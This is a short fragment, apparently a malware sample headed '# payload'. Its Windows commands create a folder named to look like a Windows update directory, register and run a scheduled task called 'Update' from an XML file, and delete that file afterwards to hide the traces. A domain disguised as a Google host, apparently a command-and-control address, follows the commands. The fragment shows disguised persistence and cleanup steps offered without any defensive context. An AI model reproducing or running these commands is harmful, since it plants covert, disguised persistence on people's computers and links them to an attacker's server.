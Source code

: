 # payload

mkdir %systemdrive%\ProgramData\updatewndows

schtasks /create /xml %systemdrive%\ProgramData\updatewndows\Update.xml /tn Update
del %systemdrive%\ProgramData\updatewndows\Update.xml
schtasks /run /tn Update



googleapp.bounceme.net

